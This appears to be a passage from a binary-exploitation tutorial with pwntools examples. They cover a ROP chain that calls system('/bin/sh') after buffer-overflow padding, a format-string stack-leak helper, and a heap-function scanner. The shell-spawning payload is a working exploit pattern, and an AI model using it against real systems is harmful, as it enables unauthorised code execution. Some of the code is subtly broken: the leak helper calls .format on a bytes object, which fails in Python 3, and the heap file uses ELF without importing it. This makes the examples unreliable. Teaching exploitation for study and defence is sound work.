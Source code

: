 # Advanced Topics (Brief Overview)

### Return Oriented Programming (ROP)

When direct code injection isn't possible due to protections like NX bit:

```python
# File: rop_example.py
#!/usr/bin/env python3

"""
Basic ROP Chain Example
"""

from pwn import *

# Load binary and find gadgets
elf = ELF('./binary')
rop = ROP(elf)

# Build ROP chain to call system('/bin/sh')
binsh = next(elf.search(b'/bin/sh'))  # Find '/bin/sh' string
rop.call('system', [binsh])

# Create payload
offset = 40
payload = b'A' * offset + rop.chain()
```

### Format String Exploitation

Advanced technique for information leaks and arbitrary writes:

```python
# File: format_string_advanced.py
#!/usr/bin/env python3

"""
Format String Exploitation Example
"""

from pwn import *

def leak_stack(p, positions):
    """Leak stack values at specific positions"""
    payload = b'AAAA' + b'%{}$p,' * len(positions)
    payload = payload.format(*positions)

    p.sendline(payload)
    response = p.recvline()

    # Parse leaked addresses
    leaked = []
    for addr_str in response.split(b',')[:-1]:
        if addr_str.startswith(b'0x'):
            leaked.append(int(addr_str, 16))

    return leaked

# Example usage for leaking addresses
# p = process('./format_vuln')
# addresses = leak_stack(p, [6, 7, 8, 9, 10])
```

### Heap Exploitation

Advanced topic involving dynamic memory corruption:

```python
# File: heap_exploitation_basics.py
#!/usr/bin/env python3

"""
Basic Heap Exploitation Concepts

Common heap vulnerabilities:
1. Use After Free (UAF)
2. Double Free
3. Heap Overflow
4. Format String on Heap
"""

# Example of detecting heap vulnerabilities
def analyze_heap_functions(binary_path):
    """Analyze binary for heap-related functions"""
    dangerous_funcs = [
        'malloc', 'free', 'realloc', 'calloc',
        'new', 'delete'  # C++ operators
    ]

    elf = ELF(binary_path)
    found_funcs = []

    for func in dangerous_funcs:
        if func in elf.got:
            found_funcs.append(func)

    return found_funcs

# Heap exploitation requires deep understanding of:
# - Heap internals (glibc malloc, ptmalloc2)
# - Chunk structures
# - Free list management
# - Heap metadata corruption techniques
```
